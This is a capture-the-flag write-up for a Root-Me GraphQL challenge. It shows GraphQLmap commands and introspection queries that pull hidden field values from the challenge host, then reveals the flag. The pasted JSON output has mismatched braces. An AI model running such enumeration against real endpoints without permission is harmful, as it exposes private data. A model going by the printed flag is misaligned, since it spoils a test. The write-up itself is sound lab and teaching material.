


Here, we can see there is a basic `GraphQL-Introspection` we can execute. I'll use this tool [GraphQLmap](https://github.com/swisskyrepo/GraphQLmap).

execute this command
`graphqlmap -u http://challenge01.root-me.org:59077/rocketql -v --method POST`

and then, `dump_via_introspection`.



Okay, let's see what is found inside `IAmNotHere`
```bash
GraphQLmap > {IAmNotHere(very_long_id:0){very_long_value}}
None
{
    "data": {
        "IAmNotHere": null
    {
{
```

Fine, next value:
```bash
GraphQLmap > {IAmNotHere(very_long_id:1){very_long_value}}
None
{
    "data": {
        "IAmNotHere": [
            {
                "very_long_value": "n"
            {
        ]
    {
{
```
Interesting, let's auto this using burp


We are getting: `nothingherelol`, and then, we can see the flag: `RM{1ntr0sp3ct1On_1s_us3ful}`

**Flag:** **_`RM{1ntr0sp3ct1On_1s_us3ful}`_**
